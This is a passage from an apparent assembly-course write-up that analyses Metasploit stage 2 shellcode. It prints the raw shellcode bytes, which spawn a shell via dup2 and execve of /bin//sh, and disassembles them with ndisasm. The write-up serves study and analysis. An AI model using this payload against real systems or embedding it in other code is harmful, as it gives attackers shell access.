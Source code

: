### Stage 2
To analyse stage 2, it could be possible to use a simpler method. Just generating the shellcode from *msfconsole*.

![](../Images/27_slae_assignment_5.png)

``Stage 2 generated``

Then it is possible to get the shellcode instructions using *ndisasm*.
````
echo -ne "\x89\xfb\x6a\x02\x59\x6a\x3f\x58\xcd\x80\x49\x79\xf8\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x52\x53\x89\xe1\xcd\x80" | ndisasm -u -
````
``Using ndisasm to obtain instructions from shellcode``

![](../Images/28_slae_assignment_5.png)

